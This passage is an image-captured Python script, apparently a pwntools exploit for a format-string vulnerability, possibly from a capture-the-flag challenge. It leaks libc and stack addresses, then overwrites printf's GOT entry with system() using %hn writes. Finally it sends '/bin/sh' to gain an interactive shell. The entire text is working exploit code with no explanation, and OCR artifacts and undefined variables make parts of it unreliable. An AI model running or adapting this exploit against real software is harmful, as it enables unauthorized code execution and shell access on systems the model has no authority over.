 ```python
payload += b"%8$ hn"
log.info("Payload: %s" % payload)

proc.recv()
proc.sendline(payload)
data = proc.recv()
leak = data.split(b'|')
if REMOTE:
    libc = int(leak[1],16) - 0xf1 - 0x18d90
else:
    libc = int(leak[1],16) - 0xf1 - 0x18d90
        
stack = int(leak[3], 16)
stack += 64 - 0xe0
log.info("Leaked:       0x%x" % (int(leak[1],16) - 0xf1))
log.info("Libc base:    0x%x" % libc)
log.info("return add:   0x%x" % stack)

# STAGE 2 - Overwrite printf with system AND fini_array with main yet again
if REMOTE:
    system_offset = 0x3cd10
else:
    system_offset = 0x3d200

system = libc + system_offset
lower_system = system & 0xffff
upper_system = system >> 16
log.info("System        0x%x" % system)

# This payload assumes that the addresses are in the format 
# (just look at comparable size of half words)
# system = 0xffff 5555
# main   = 0x0804 8536
payload  = p32(stack+2)     # upper (return addy) <- upper_main
payload += p32(stack)       # lower (return addy) <- lower_main
payload += p32(printf_got)  # lower (printf@GOT)  <- lower_system
payload += p32(printf_got+2)# upper (printf@GOT)  <- upper_system

# Format string specifiers, with calculated padding
# The padding / order of these specifiers is entirely dependant on 
# the structure of the addresses that you need to write
payload += bytes("%{}x".format(upper_main - 16).encode('utf-8'))
payload += b"%7$ hn"
payload += bytes("%{}x".format(lower_system - upper_main).encode('utf-8'))
payload += b"%9$ hn"
payload += bytes("%{}x".format(lower_main - lower_system).encode('utf-8'))
payload += b"%8$ hn"
payload += bytes("%{}x".format(upper_system + 0x7778 + 0x352).encode('utf-8'))
payload += b"%10$ hn"

log.info("Payload2: %s" % payload)
proc.recv()
proc.sendline(payload)
proc.recv()

# Execute system(ptr_to_user_input)
proc.sendline("/bin/sh")
proc.interactive()
```
